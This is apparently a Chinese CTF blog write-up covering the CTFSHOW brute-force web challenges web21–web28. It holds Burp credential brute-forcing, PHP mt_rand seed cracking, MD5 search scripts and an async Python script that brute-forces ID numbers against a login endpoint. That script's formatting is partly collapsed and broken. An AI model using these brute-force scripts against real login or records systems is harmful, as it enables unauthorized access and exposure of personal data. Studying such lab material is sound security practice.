+++
date = '2024-10-20T00:27:55+08:00'
title = 'CTFSHOW-爆破-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++


#### web21



抓个包


我们可以看到他的账号密码是通过base64编码加密后再发送的，问题不大

payload设置如下





我们还要设置一下payload处理


开始爆破，根据长度或者状态码判断即可


#### web22

域名爆破

通过爆破ctf.show的子域名可以爆破到flag.ctf.show

访问即可得到flag(虽然已经挂了)

#### web23

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 11:43:51
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 11:56:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);

include('flag.php');
if(isset($_GET['token'])){
    $token = md5($_GET['token']);
    if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){
        if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){
            echo $flag;
        }
    }
}else{
    highlight_file(__FILE__);

}
?>
```

分析代码可知： 需要找到一个合适的 token 值，使得以下条件成立：

1、md5(token) 的第 1 位（从 0 开始算）等于第 14 位

2、md5(token) 的第 14 位等于第 17 位。

3、md5(token) 的第 1 位的整数值、14 位的整数值、和 17 位的整数值的和除以第 1 位的整数值等于第 31 位的整数值。


既然不知道怎么凑那我们可以尝试爆破

通过bp爆破一下1-1000中是否有符合上述条件的字符串



哎我草，怎么就爆破出来了，虽然不知道为什么纯数字还能爆出来

其他解法，可以用大佬的脚本

```python
# coding: utf-8
# alberthao
import hashlib

dic = '0123456789qazwsxedcrfvtgbyhnujmikolp'
for a in dic:
    for b in dic:
        t = str(a) + str(b)
        md5 = hashlib.md5(t.encode('utf-8')).hexdigest()
        # print md5
        # print md5[1:2]
        # print md5[14:15]
        # print md5[17:18]
        if md5[1:2] == md5[14:15] and md5[14:15] == md5[17:18]:
            if (ord(md5[1:2])) >= 48 and ord(md5[1:2]) <= 57 and (ord(md5[14:15])) >= 48 and ord(md5[14:15]) <= 57:
                if (ord(md5[17:18])) >= 48 and ord(md5[17:18]) <= 57 and (ord(md5[31:32])) >= 48 and ord(
                        md5[31:32]) <= 57:
                    if (int(md5[1:2]) + int(md5[14:15]) + int(md5[17:18])) / int(md5[1:2]) == int(md5[31:32]):
                        print(t)
```

or

```python
import hashlib
for i in range(1,10000):

md5 = hashlib.md5(str(i).encode('utf-8')).hexdigest()

if md5[1] != md5[14] or md5[14]!= md5[17]:
	continue

if(ord(md5[1]))>=48 and ord(md5[1])<=57 and (ord(md5[31]))>=48 and ord(md5[31])<=57:

	if((int(md5[1])+int(md5[14])+int(md5[17]))/int(md5[1])==int(md5[31])):

		print(i)
```

#### web24

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 13:26:39
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 13:53:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(372619038);
    if(intval($r)===intval(mt_rand())){
        echo $flag;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}

?>
```

这道题考察的是一个php伪随机数的题目

> mt_scrand(seed)这个函数的意思，是通过分发seed种子，然后种子有了后，靠mt_rand()生成随机 数。 提示：从 PHP 4.2.0 开始，随机数生成器自动播种，因此没有必要使用该函数 因此不需要播种，并且如果设置了 seed参数 生成的随机数就是伪随机数，意思就是每次生成的随机数 是一样的

虽然说是随机数，但是同一个种子会生成同一串数字

poc

```php
<?php 
mt_srand(372619038);
echo intval(mt_rand()); 
?>
```

不知道跟版本有没有关系，我随便找的php在线运行，成功得到flag

#### web25

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 13:56:57
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-03 15:47:33
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
include("flag.php");
if(isset($_GET['r'])){
    $r = $_GET['r'];
    mt_srand(hexdec(substr(md5($flag), 0,8)));
    $rand = intval($r)-intval(mt_rand());
    if((!$rand)){
        if($_COOKIE['token']==(mt_rand()+mt_rand())){
            echo $flag;
        }
    }else{
        echo $rand;
    }
}else{
    highlight_file(__FILE__);
    echo system('cat /proc/version');
}
```

继续php伪随机数

我们需要知道一个性质

当mt_srand()中的种子是固定的，那么我们生成的随机数的序列就是相同的，如下

```php
<?php

mt_srand(1852100618);

echo mt_rand();
echo mt_rand();
echo mt_rand();
echo mt_rand();

'''
1640856123
1390302953
893879251
859994814
```

在这道题里面我们需要得到前三个随机数

第一个随机数我们可以使r=0得到，第一个随机数为1640856123



得到第一个随机数之后我们可以通过爆破的方式得到种子，从而得到第二，第三个随机数

php脚本(极其慢)

```php
<?php
$a= 390148868;//第一个随机数
$b= 0 ;
while (true){
    mt_srand($b);
    if(mt_rand()==$a){
        echo "success:"+$b;
        break;
    }
    echo $b;
    echo "\n";
    $b+=1;

}
```

或者使用php_mt_seed-4.0工具



我们可以看到不同版本的seed是不同的，我们一个个试试就行了

```php
mt_srand(1852100618);
echo mt_rand();// 第一次随机数（不能少）
echo "\ntoken：";
echo (mt_rand()+mt_rand()); //第二和第三次随机数相加，也就是我们要对token
```

得到token的值，我们只需要使rand为零即可得到flag

也就是说我们只需要使r等于第一次随机数即可

传参，得到flag


#### web26



这么多我咋爆，赌一把只爆密码



#### web27


这题是一个教务系统，需要通过账号密码登录

先信息收集一下

我们可以看到在账号密码下面有一个录取名单和学生学籍信息查询系统




分别如上，那我们是否可以通过爆破学生的身份证信息从而通过录取查询查到学生的信息呢？

bp抓个包


哎我草，我数据呢

forward一下（是因为数据实际上在checkdb.php才提交吗？不是很懂）



我们可以发现其实身份证缺失的部分刚好是出生日期

那我们可以用bp中的日期爆破功能





爆出来的msg用unicode解码一下就能得到账号密码了



贴个大佬的脚本

```python
url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php' NUM=32

def run_tasks(L): U=[] for i in L: U.append(asyncio.ensure_future(i)) loop = asyncio.get_event_loop() loop.run_until_complete(asyncio.wait(U))

class TaskRuner: def init(self,n) -> None: self.L=[] for i in range(n): self.L.append(self.task_function(i)) self.task_num=n async def task_function(self,n): pass def run(self): run_tasks(self.L) self.on_over() def on_over(self): pass

import aiohttp from urllib.parse import quote from datetime import date, timedelta

class NYR: def init(self,start_date,end_date) -> None: self.start_date=start_date self.end_date=end_date self.delta = timedelta(days=1) self.current_date = start_date def next(self): t=self.current_date if t>self.end_date: return None self.current_date+=self.delta return t

class Scanner(TaskRuner): def init(self,d1,d2,n) -> None: super().init(n) self.nyr=NYR(d1,d2) self.alive=True

async def task_function(self, n):
    while self.alive:
        u=self.nyr.next()
        if not u:
            break
        r=await self.login(u)
        if r:
            self.alive=False
async def login(self,t:date):
    url='https://bbc133e5-8f17-4c12-a7a2-88fecb9ac079.challenge.ctf.show/info/checkdb.php'
    n=t.year
    y=t.month
    r=t.day
    n=str(n)
    y=str(y)
    r=str(r)
    if len(y)==1:
        y='0'+y
    if len(r)==1:
        r='0'+r
    sfz='621022'+n+y+r+'5237'
    data={
        'a':'高先伊',
        'p':sfz,
    }
    sess=aiohttp.ClientSession()
    try:
        r=await sess.post(url=url,data=data,ssl=False)
        text=await r.text()
        js=loads(text)
        msg=js['msg']
        print(sfz,msg)
        await sess.close()
        return msg!='提交信息有误'
    except Exception as e:
        print(e)
        pass
    try:
        await sess.close()
    except:
        pass
    return False

async def handle_up(self,u,p):
    pass
a=Scanner(date(1990,1,1),date(2010,12,12),NUM)

a.run()
```


#### web28


这题本来不知道要干嘛



dirsearch扫一下,感觉应该是目录爆破



先爆破一下0-100

